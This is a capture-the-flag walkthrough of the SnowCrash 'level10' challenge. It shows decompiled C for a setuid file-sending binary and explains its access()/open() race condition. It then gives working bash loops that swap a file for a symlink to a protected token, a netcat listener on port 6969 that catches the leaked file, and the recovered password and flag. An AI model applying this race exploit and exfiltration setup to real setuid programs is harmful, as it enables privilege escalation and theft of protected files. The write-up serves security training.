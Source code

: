# level10

- We log as 'level10'

- Two files are located inside the home directory of level10:
>`-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10`
>`-rw-------  1 flag10 flag10     26 Mar  5  2016 token`

- The executable file has setuid & setgid bits permissions

- We can see that the executable will be executed as `flag10` if we execute it being `level10`

- Upon execution without arguments the executable prints:
>`./level10 file host`
>`        sends file to host if you have access to it`

- Upon execution with `token` as first argument and `test` as second argument, the executable prints:
>`You don't have access to token`

- Let's reverse this binary on ghidra, here is the main function in C:
```c
int main(int argc,char **argv)
{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  undefined4 *in_stack_00000008;
  char *file;
  char *host;
  int fd;
  int ffd;
  int rc;
  char buffer [4096];
  sockaddr_in sin;
  undefined local_1024 [4096];
  sockaddr local_24;
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*in_stack_00000008);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar6 = (char *)in_stack_00000008[1];
  __cp = (char *)in_stack_00000008[2];
  iVar2 = access((char *)in_stack_00000008[1],4);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[11] = '\0';
    local_24.sa_data[12] = '\0';
    local_24.sa_data[13] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }
  else {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar2;
}
```

- We can see that the binary try to access with read rights le file provided as first argument, then try to open it and write it on a socket at port 6969

- This code is vulnerable to race conditions with access and open which means if we pass as parameter a file named `toto` on which i have the rights on i can bypass access check for real ID. I then need to swap the `toto` file with another file name `toto` and the open will affect this new file instead of the first one.

- We first need a small service on port 6969 to listen to the result, let's with nc:
>`nc -l -k 6969 > /tmp/pwn.log`

- We then need a script that will create a file on which everyont has rights named `/tmp/pwn10` then removes it, create a symlink named `/tmp/pwn10` that points on `/home/user/level10/token` then removes it and do this over and over until i get the right timing with the binary:
```bash
#!/bin/bash
while true
do
	touch /tmp/pwn10
	chmod 777 /tmp/pwn10
	rm /tmp/pwn10
	ln -s /home/user/level10/token /tmp/pwn10
	chmod 777 /tmp/pwn10
	rm /tmp/pwn10
done
```

- We also need a small script that will launch the binary again and again:
```bash
#!/bin/bash
while true
do
	/home/user/level10/level10 /tmp/pwn10
done
```

- We launch everything and wait a few seconds then let's cat the file removing those `.*( )*.` spamming in the log
>`level10@SnowCrash:~$ cat /tmp/pwn.log | grep -v ".*( )*."`
>`woupa2yuojeeaaed06riuj63c`

- This is the password to log to flag10:
>`level10@SnowCrash:~$ su flag10`
>`Password: `
>`Don't forget to launch getflag !`
>`flag10@SnowCrash:~$ getflag`
>`Check flag.Here is your token : feulo4b72j7edeahuete3no7c`

- We get the flag: `feulo4b72j7edeahuete3no7c`